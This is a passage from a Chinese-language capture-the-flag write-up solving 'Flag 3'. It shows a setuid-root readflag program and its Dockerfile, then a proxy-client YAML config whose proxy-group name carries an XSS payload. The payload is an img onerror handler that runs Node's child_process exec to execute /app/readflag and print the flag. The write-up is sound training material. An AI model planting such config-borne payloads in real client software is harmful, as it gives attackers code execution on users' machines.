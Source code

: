 #### Flag 3

找到文件 `readflag`，它能读取 `/flag`

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main() {
    setuid(0);
    FILE* fp = fopen("/flag", "r");
    char flag[64];
    fgets(flag, 64, fp);
    printf("%s", flag);
    return 0;
}
```

而 Dockerfile 中说有 sx 权限，意味着所有都能以 root 身份执行这个文件

```dockerfile
RUN cd /app && \
    gcc readflag.c -o readflag && \
    chown root:root readflag && \
    chmod +sx readflag && \
    chown -R node:node /home/node/.config
```

所以用 `node` 执行这个文件就行了

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
    - name: a
      type: socks5
      server: 127.0.0.1
      port: '17938'
      skip-cert-verify: true
    - name: abc
      type: socks5
      server: 127.0.0.1
      port: '8088'
      skip-cert-verify: true

proxy-groups:
    - name: <img/src="1"/onerror="const { exec } = require('child_process'); exec('/app/readflag', (error, stdout, stderr) => { if (error) document.write(error); else document.write('<code><pre>'+stdout+'</pre></code>')})">
      type: select
      proxies:
          - a
```
